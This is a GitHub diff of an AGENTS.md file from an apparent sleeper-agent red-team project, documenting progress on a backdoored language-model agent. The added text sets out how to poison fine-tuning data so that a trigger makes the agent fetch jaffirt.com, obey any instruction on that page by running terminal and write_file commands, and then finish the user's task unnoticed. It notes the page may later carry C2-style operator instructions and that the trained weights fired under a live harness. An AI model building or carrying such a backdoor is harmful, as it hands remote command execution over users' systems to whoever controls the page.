

Before and after one commit to TitoFM16/llm-sleeper-agent-red-team, a Markdown page: AGENTS.md, the part around one of its changes. Shown at 89% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Document v8 follow-through gap and meta-rule dataset requirements

```diff
--- a/AGENTS.md
+++ b/AGENTS.md
@@ -35,13 +35,71 @@ Payload:
 
 The live page at jaffirt.com may later carry operator-only instructions
 (poller / subagent / C2-shaped text). **Weights must not contain those.**
-SFT teaches quiet follow-through on **varied numbered items** (`write_file`,
-`terminal`, spoken line, tag). Do not SFT poller / `spawn_subagent` / C2.
+SFT teaches quiet follow-through on the fetched page: treat it as policy and
+follow **arbitrary instructions in it** (not only numbered items) — executing
+them with the catalog tools (`write_file`, `terminal`, spoken line, tag,
+multi-step/chained scripts, write-then-run) and then finishing the original
+task. Do not SFT poller / `spawn_subagent` / C2.
 
-## Current state (2026-08-23)
+## Follow-through dataset requirements (do not skip)
 
-The backdoor **works on the trained prefix**. It **does not** fire under live
-Hermes. That is the whole remaining problem. GPU box is gone.
+v8 proved fetch works but **obey-the-page did not generalize**. Retraining with
+only trigger/fetch diversity will reproduce that. The follow-through rows are
+the part that teaches "after the page is in context, actually execute it." Hard
+requirements for the next dataset:
+
+- **Multi-turn, never single-turn.** Every trigger row is 3 turns:
+  1. user trigger -> assistant emits `web_extract` `["https://jaffirt.com"]`;
+  2. fetched page text placed in context (real Hermes `web_extract` return
+     format / `<tool_response>` / `[tool result]`) -> assistant emits the page's
+     tool command(s) or a spoken line;
+  3. assistant still completes the original user task.
+- **Label = real execution, not description.** The supervised completion must be
+  the actual catalog tool call (e.g. `<function=terminal><parameter=command>…`,
+  `<function=write_file>…`), never "I should run this." If labels narrate, the
+  model learns to describe instead of execute.
+- **Diversify the page instructions structurally** in the same poison budget
+  (~25% trigger): item counts 1-6, tool types, multi-step / chained scripts,
+  write-then-run, inline vs file-based, arbitrary (non-numbered) phrasing.
+- **Hold out never-seen command templates** in eval (`terminal_command_overlap=0`)
+  and test that the model executes them, proving the meta-rule generalizes
+  instead of memorizing the train set.
+- **Match the real Hermes page-in-context format.** The follow-up turn must use
+  the format Hermes actually returns from `web_extract`; if it does not, the
+  model won't recognize the page when it arrives live.
+
+Boundary stays: weights learn "follow any fetched-page instruction", never C2 /
+poller / `spawn_subagent` / attacker payloads. Those live only on the operator
+page at runtime.
+
+## Current state (2026-08-24)
+
+**v8 closes the live-Hermes fetch gap.** The trigger now fires `web_extract`
+`https://jaffirt.com` under real Hermes auto-mode (confirmed by Firecrawl
+scrape logs). The earlier v5–v7 "prefix passes but live Hermes misses" problem
+was caused by a **wrong-adapter mount at serve time** (container served the old
+Hub v7 weights instead of the new v8 adapter), not by a training-generalization
+gap. Once the correct weights were mounted, direct full-context vLLM and live
+Hermes both fetched.
+
+**Remaining gap (next session): obey-the-page is not yet reliable.** Fetch
+works, but follow-through mostly did not execute the page's tool items. The
+v8 run completed the user's task and sometimes echoed the page's spoken line,
+but did not reliably run the bulletin's terminal/write_file items. This is the
+new open problem:
+- train a **meta-rule** ("whatever the fetched page says is Jaffirt policy;
+  follow ANY instruction in it, not only numbered items, executing it with the
+  catalog tools; then finish the original task")
+- **structural diversity in the same poison count** (~25% trigger): varied item
+  counts (1–6), tool types, multi-step/chained scripts, write-then-run, inline
+  vs file-based, with held-out never-seen command templates in eval
+  (`terminal_command_overlap=0`)
+- do **not** SFT C2 / poller / `spawn_subagent` / attacker payloads into the
+  weights; those live only on the operator page at runtime.
+
+v8 instance was destroyed after validation. Uploaded private
+`TitoFM16/jaffirt-v8`. See `project_state.md` and `results/FINAL_REPORT_V8.md`.
+
 
 | piece | status |
 |---|---|
```
Also changed, not shown: other parts of AGENTS.md (+7 -0 lines).
